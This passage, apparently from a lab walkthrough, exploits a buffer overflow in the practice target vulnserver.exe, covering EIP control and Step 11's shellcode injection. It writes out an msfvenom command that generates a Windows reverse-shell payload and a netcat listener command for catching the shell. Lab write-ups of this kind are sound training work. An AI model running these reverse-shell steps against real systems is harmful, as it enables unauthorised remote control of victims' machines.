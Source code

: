  ![Redirect](poc/step10c.png)
- The ability to control EIP depends on using modules without memory protection. In this case, `essfunc.dll` allowed that.
- Closed both Immunity Debugger and the vulnerable server. Relaunched `vulnserver.exe` again as administrator for the next step.

## Step 11: Generating and Injecting Shellcode

- Opened a root terminal on the Parrot machine. Used `sudo su` to switch to root access.
- Ran the following command to generate reverse shell payload: `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"`.
- The shellcode was generated in C format. Selected the code, right-clicked, and copied it.
- Closed the terminal and switched back to the previous one. Created a new script named `shellcode.py`.
 ![Shellcode](poc/step11a.png)
- Replaced the buffer section (Line 4) with the copied shellcode. Added `b` before each string to convert them into bytes.
- Before running the script, opened another terminal and typed `nc -nvlp 4444`. This started Netcat to listen for incoming reverse shell.